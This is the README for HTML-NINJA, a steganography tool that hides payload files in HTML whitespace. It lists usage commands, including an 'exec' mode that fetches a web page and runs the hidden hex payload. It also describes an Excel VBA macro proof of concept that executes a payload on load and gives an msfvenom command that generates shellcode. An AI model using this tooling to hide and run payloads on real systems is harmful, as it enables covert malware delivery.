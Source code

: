 # HTML-NINJA by ephreet

HTML NINJA is a steganograpy tool to encrypt files in white spaces of html documents: the final result is a oneline HTML that, when parsed by browsers, will show only single spaces
This will work only if the source page will have enough spaces to contain the data to be hidden!
You can also use it on any text container, but the result will be unformatted text with a lot of suspicious spaces...


## USAGE EXAMPLES:
```
html-ninja.py -e source content outfile -> will encode the payload file 'content' into file 'source' and output the result as 'outfile'
html-ninja.py -d source outfile -> will try to decrypt white spaces in 'source' file into 'outfile'
html-ninja.py --check filename -> will check 'filename' for available spaces and spaces needed to embed the file
html-ninja.py -d http://localhost/html-ninja.html stdout -> will get http url and output to stdout
html-ninja.py -d http://localhost/html-ninja.html exec -> will get http url and execute the hex payload (payload must have a '|' terminator)
html-ninja.py -ez / -dz ... -> adds zlib compression to both encryption and decryption
html-ninja.py -eb / -db ... -> adds bz2 compression to both encryption and decryption
```

## html-ninja.js

This is a very basic function to read hidden data directly from browser, there are a lot of ways you can use this...just use your imagination!


## html-ninja.html

This is a PoC to show how it's possible to embed self decrypting data inside html pages. This needs a proper web server to run (not file:///...)


## buf.txt

This is a sample payload to test the 'exec' parameter while decrypting.
```
msfvenom -p linux/x64/exec CMD="whoami;id;uname -a" -f python -o buf.txt
```

## macro_poc.bas & htm

These two files are a proof of concept on Microsoft VBA: Excel macro to open and execute payload onload
